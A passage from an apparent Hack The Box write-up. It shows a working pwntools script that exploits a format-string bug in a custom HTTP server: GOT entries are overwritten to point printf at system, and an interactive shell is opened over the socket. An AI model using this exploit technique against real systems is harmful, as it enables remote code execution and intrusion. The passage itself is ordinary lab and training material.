 ~~~~python
    if libc is None and "libc" in line:
        libc = int(line[:8], 16)

success("Found: %s (httpserver)", hex(httpserver))
success("Found: %s (libc)", hex(libc))

r.close()

goto   = 0x20e5 + httpserver # <log_access+110>
puts   = 0x5048 + httpserver # puts in got.plt (writable)
printf = 0x5018 + httpserver # printf in got.plt (writable)
system = 0x3cd10 + libc      # system@libc

writes = {
    printf : system,
    puts : goto
}

shell = 'bash -c "exec <&4 >&4; sh" #'
info("Executing shell: %s", repr(shell))

pad = len(shell) % 4
if pad:
    shell += ' ' * (4 - pad)

offset = (len(shell) / 4) + 53
payload = shell + fmtstr_payload(offset, writes, len(shell), write_size='short')

request='''\
GET /{} HTTP/1.1

'''.format(quote(payload))

r = remote("10.10.10.148", 9999)
r.send(request)
r.recvuntil("HTTP", drop=True)
r.clean()

success("We have shell!")

r.interactive()
~~~~

Let's do this.

{% include image.html image_alt="3b50aeeb.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/3b50aeeb.png" %}

We got shell!

## Low-Privilege Shell


[1]: https://www.hackthebox.eu/home/machines/profile/200
[2]: https://www.hackthebox.eu/home/users/profile/13243
[3]: https://www.hackthebox.eu/